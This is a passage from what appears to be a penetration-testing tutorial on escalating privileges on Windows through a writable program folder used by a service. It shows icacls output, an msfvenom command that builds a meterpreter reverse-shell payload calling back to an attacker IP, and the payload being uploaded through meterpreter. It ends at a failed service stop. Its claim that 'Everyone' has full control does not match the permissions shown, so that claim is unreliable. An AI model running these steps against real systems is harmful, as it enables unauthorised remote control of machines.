                                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                      BUILTIN\Users:(I)(RX)
                                      BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                      CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
Successfully processed 1 files; Failed processing 0 files
C:\Program Files (x86)\Program Folder>
```
What a luck! As you can see, “Everyone” has full control on this folder.

F = Full Control
CI = Container Inherit – This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit – This flag indicates that subordinate files will inherit the ACE.

This means we are free to put any file to this folder! From now on, what you’re going to do depends on your imagination. I simply preferred to generate a reverse shell payload to run as SYSTEM. msfvenom can be used for this job:
```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o A.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 73802 bytes
Saved as: A.exe
```
Let’s put out payload to “C:\Program Files (x86)\Program Folder” folder:
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > cd "../../../Program Files (x86)/Program Folder"
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
==============================================
Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-01-04 21:43:28 -0500  A Subfolder
meterpreter > upload -f A.exe
[*] uploading  : A.exe -> A.exe
[*] uploaded   : A.exe -> A.exe
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
==============================================
Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2017-01-04 21:43:28 -0500  A Subfolder
100777/rwxrwxrwx  73802  fil   2017-01-04 22:01:32 -0500  A.exe
meterpreter > 
```
At the next start of the service, A.exe will run as SYSTEM. Let’s try to stop and restart the service:
```
meterpreter > shell
Process 1608 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>sc stop "Vulnerable Service"
sc stop "Vulnerable Service"
[SC] OpenService FAILED 5: